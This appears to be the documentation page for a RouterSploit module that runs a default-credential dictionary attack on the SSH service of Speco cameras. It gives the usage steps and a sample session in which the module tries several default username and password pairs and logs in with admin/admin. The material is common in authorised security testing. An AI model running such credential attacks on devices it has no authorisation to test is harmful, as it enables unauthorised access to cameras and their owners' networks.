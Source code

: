 ## Description

Module performs dictionary attack with default credentials against Speco Camera SSH service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/speco/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/speco/ssh_default_creds
rsf (Speco Camera Default SSH Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Speco Camera Default SSH Creds) > run
[*] Running module...
[*] Target exposes SSH service
[*] Starting default credentials attack against SSH service
[*] thread-0 thread is starting...
[-] SSH Authentication Failed - Username: 'admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'admin' Password: '123456'
[-] SSH Authentication Failed - Username: 'Admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'Admin' Password: '123456'
[+] SSH Authentication Successful - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 2.3932292461395264 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     22       ssh         admin        admin 

```

